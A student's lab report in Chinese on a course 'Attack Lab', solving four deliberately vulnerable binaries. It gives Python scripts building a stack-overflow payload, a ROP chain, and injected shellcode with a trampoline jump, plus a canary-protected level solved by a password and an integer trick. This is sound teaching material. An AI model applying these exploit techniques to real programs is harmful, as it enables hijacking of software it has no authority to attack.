




# Attack Lab Report

姓名：刘恩希 

学号：2024202853

## 题目解决思路

### Problem 1:

- **分析**：

  1. 目标识别：

     首先使用 `objdump -d problem1 | grep func1` 查看二进制文件，发现存在一个名为 func1 的函数，地址为 0x401216。该函数内部包含了打印目标字符串的逻辑。

  2. 漏洞定位：

     查看 func 函数的汇编代码`objdump -d problem1 | grep -A 20 "<func>:"`，发现程序使用了 strcpy 函数将输入复制到栈上的缓冲区，且未进行长度检查，存在栈溢出漏洞。

  3. **栈帧分析与偏移量计算**：

     - 汇编指令 `lea -0x8(%rbp), %rax` 显示缓冲区起始地址位于 `rbp - 0x8`。
     - 函数的返回地址存储在 `rbp + 0x8` 的位置（紧随 Saved RBP 之后）。
     - **Padding 计算**：从缓冲区起点 (`rbp-8`) 到返回地址 (`rbp+8`) 的距离 = 8 字节 (Buffer) + 8 字节 (Saved RBP) = **16 字节**。

- 解决方案：

  编写 Python 脚本 solve1.py 生成二进制 Payload。Payload 结构为：16 字节的垃圾数据（用于填充缓冲区和覆盖 RBP） + func1 的地址（覆盖返回地址）。

  ```python
  import struct
  padding = b'A' * 16
  # 使用 <Q 表示小端序 64 位无符号整数
  target_addr = struct.pack('<Q', 0x401216)
  payload = padding + target_addr
  
  with open("ans1.txt", "wb") as f:
      f.write(payload)
  ```

- 结果：

  在终端运行命令 ./problem1 ans1.txt，输出：

  

### Problem 2: 

- **分析**：

  1. 保护机制分析：

     题目说明开启了 NX 保护，这意味着栈上的数据无法作为代码执行。因此不能像 Problem 1 那样直接跳转到栈上，而需要利用程序中已有的代码片段构建 ROP 链。

  2. **确定目标与参数**：

     - 目标函数为 `func2`，地址经查询为 **`0x401216`**。
     - 反汇编 `func2` 发现指令 `cmpl $0x3f8, -0x4(%rbp)`，说明函数内部需要验证参数。第一个参数通过 **`%rdi`** 寄存器传递，因此我们需要将 `%rdi` 的值设置为 **`0x3f8`**。

  3. 寻找 Gadget：

     使用 `objdump -d problem2 | grep "pop.*rdi" -A 1` 查找可以控制 %rdi 的指令。

     找到地址 0x4012c7 处的 Gadget：

     ```asm
     pop %rdi
     ret
     ```

     该指令可以将栈顶数据弹出至 `%rdi`，然后返回。

  4. 偏移量计算：

     分析 func 函数，发现缓冲区布局与 Problem 1 相同，因此 Padding 长度仍为 16 字节。

- 解决方案：

  构造 ROP 链，逻辑顺序为：填充数据 -> Gadget 地址 (将下一项弹入 rdi) -> 参数值 (0x3f8) -> 目标函数地址 (func2)。

  ```python
  import struct
  
  padding_len = 16
  pop_rdi_ret = 0x4012c7  # Gadget 地址: pop rdi; ret
  arg_value   = 0x3f8     # 参数值: 0x3f8
  func2_addr  = 0x401216  # 目标函数地址
  
  payload = b'A' * padding_len
  payload += struct.pack('<Q', pop_rdi_ret)
  payload += struct.pack('<Q', arg_value)
  payload += struct.pack('<Q', func2_addr)
  
  with open("ans2.txt", "wb") as f:
      f.write(payload)
  ```

- 结果：

  运行 ./problem2 ans2.txt，输出：

  

### Problem 3: 

- **分析**：

  1. **目标识别与参数需求**：

     - 反汇编 func1(`objdump -d problem3 | grep -A 20 "<func1>:"`)，发现指令 `cmpl $0x72, -0x44(%rbp)`。
     - `0x72` 的十进制值为 **114**。题目要求输出 "Your lucky number is 114"，这意味着我们需要调用 `func1`，且必须满足参数条件（即第一个参数 `%edi` 必须为 114）。

  2. **策略选择**：

     - 我首先想要找到简单的 `pop rdi` ，就像第一题一样，但是并未找到，于是转而去寻找替代方案。发现特殊函数 `jmp_xs` (**`0x401334`**)，汇编代码如下：

       ```asm
       0000000000401334 <jmp_xs>:
       ...
       40133c: mov 0x21cd(%rip),%rax   # 读取 saved_rsp 
       401343: mov %rax,-0x8(%rbp)
       401347: addq $0x10,-0x8(%rbp)   # 核心逻辑：将地址加 16 (0x10)
       40134c: mov -0x8(%rbp),%rax
       401350: jmp *%rax               # 直接跳转到计算出的地址执行
       ```

       

     - `jmp_xs` 的汇编逻辑是读取 `saved_rsp`，加上 `0x10` 后，该指针恰好指向了**缓冲区的起始位置**，然后直接 `jmp` 跳转过去。于是我们可以将 Shellcode 写入缓冲区开头，覆盖返回地址为 `jmp_xs`。函数返回时跳转到 `jmp_xs`，`jmp_xs` 再跳回缓冲区执行 Shellcode。

  3. **Shellcode 编写：**

     ```asm
     mov $0x72, %edi      ; 将 114 (0x72) 放入 edi 寄存器
     mov $0x401216, %eax  ; 将 func1 地址放入 eax 寄存器
     call *%eax           ; 间接调用 func1
     ```

     对应机器码为：bf 72 00 00 00 (mov), b8 16 12 40 00 (mov), ff d0 (call)，总长为12字节。

  4. 偏移量计算：

     查看 func 汇编：`lea -0x20(%rbp), %rax`

     Padding 长度 = (rbp - (rbp-0x20)) + 8 = 32 + 8 = 40 字节。

- 解决方案：

  Payload 布局：Shellcode (置于栈顶) + 填充字符 (补齐40字节) + jmp_xs 地址 (覆盖返回地址)。

  ```python
  import struct
  # 准备机器码
  shellcode = b'\xbf\x72\x00\x00\x00' + b'\xb8\x16\x12\x40\x00' + b'\xff\xd0'
  
  # 缓冲区总长是 40 字节
  total_buffer_len = 40
  padding_len = total_buffer_len - len(shellcode)
  
  # 设置跳转地址，覆盖返回地址，让它跳去 jmp_xs 
  jmp_xs_addr = 0x401334
  
  # 组合 Payload 
  payload = shellcode + (b'A' * padding_len) + struct.pack('<Q', jmp_xs_addr)
  
  with open("ans3.txt", "wb") as f:
      f.write(payload)
  
  ```

- 结果：

  运行 ./problem3 ans3.txt，输出：

  

### Problem 4: 

- **分析**：

  1. Canary 保护机制：

     通过 `objdump -d problem4` 分析 `func` 函数，可以清晰地看到 Stack Canary 的实现代码：

     - **Set**：在函数开头：

       ```asm
       136c: 64 48 8b 04 25 28 00 00 00  mov %fs:0x28,%rax  # 从 TLS 读取随机数
       1375: 48 89 45 f8                 mov %rax,-0x8(%rbp)# 存入 rbp-8 (Canary位)
       ```

       Canary 被放置在 `rbp-0x8`，位于局部变量缓冲区和返回地址之间。

     - **Check **：在函数尾部 ：

       ```asm
       140a: 48 8b 45 f8                 mov -0x8(%rbp),%rax # 取出栈上的值
       140e: 64 48 2b 04 25 28 00 00 00  sub %fs:0x28,%rax   # 与原值比较 
       1417: 74 05                       je 141e             # 相等则通过
       1419: e8 b2 fc ff ff              call 10d0 <__stack_chk_fail@plt> # 失败则报错
       ```

       如果栈溢出发生，`rbp-0x8` 处的值会被覆盖，导致检查失败，触发 `__stack_chk_fail`。

  2. 逻辑漏洞逆向：由于无法利用栈溢出，转而寻找逻辑漏洞。

     - **字符串解密**：汇编代码中调用了 `caesar_decrypt` 函数，将密文 "xuwquoe" 移位 12 后得到 **"likeics"**
     - **整数溢出**：反汇编 `main` 函数，发现程序将输入的数字与一个巨大的阈值 **`0xf4143da0`** (约 40 亿) 进行比较。由于输入使用 `%u` (无符号整数) 读取，我们可以输入 **`-1`**（即 4,294,967,295)，这必然大于阈值。

- 解决方案：

  1. 运行程序 `./problem4`。
  2. 程序询问名字，任意输入。
  3. 程序询问是否喜欢 ICS ，输入：ilikeics。
  4. 程序提示 "give me enough yuanshi"，此时输入数字：**`-1`**。

- 结果：

  

## 思考与总结

通过本次 Attack Lab 实验，我从基础的栈溢出利用逐步深入到了绕过现代保护机制的高级技术：

1. **栈帧理解**：深刻理解了函数调用时栈帧的布局，特别是 `saved %rbp` 和 `return address` 的位置关系，这是计算 Padding 的核心。
2. **ROP 技术**：掌握了在 NX  保护下，如何利用程序自身的代码片段 (Gadgets) 来拼接逻辑，劫持控制流。
3. **Shellcode 注入**：体验了在可执行栈环境下，如何编写并注入机器码，配合 Trampoline 技术实现任意代码执行。
4. **安全保护机制**：深入分析了 **Stack Canary** 的汇编实现原理，明白了它是如何有效防御连续覆盖的栈溢出攻击的。